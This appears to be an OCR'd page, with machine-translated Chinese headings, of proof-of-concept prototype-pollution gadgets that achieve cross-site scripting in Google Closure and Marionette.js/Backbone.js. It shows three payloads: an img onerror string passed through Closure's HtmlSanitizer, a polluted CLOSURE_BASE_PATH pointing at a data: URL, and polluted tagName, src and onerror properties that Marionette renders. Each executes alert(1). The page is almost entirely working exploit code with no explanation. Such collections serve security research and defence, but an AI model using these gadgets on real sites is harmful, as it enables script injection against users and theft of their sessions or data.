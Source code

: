 #### **关闭**

```
<script>

const html = '<img src onerror=alert(1)>';

const sanitizer = new goog.html.sanitizer.HtmlSanitizer();

const sanitized = sanitizer.sanitize(html);

const node = goog.dom.safeHtmlToNode(sanitized);

document.body.append(node);

</script>
```

#### **关闭**

```
<script>

Object.prototype.CLOSURE_BASE_PATH = 'data:,alert(1)//';

</script>
```

#### **牵线木偶. js / Backbone.js**

```
<script>

Object.prototype.tagName = 'img'

Object.prototype.src = ['x:x']

Object.prototype.onerror = ['alert(1)']

</script>

<script>

(function() {

var View = Mn.View.extend({template: '#template-layout'});

var App = Mn.Application.extend({region: '#app', onStart: function() {this.showView(new View());}});

var app = new App();

app.start();

})();

</script>

<div id="template-layout" type="x-template/underscore">xxx</div>
```
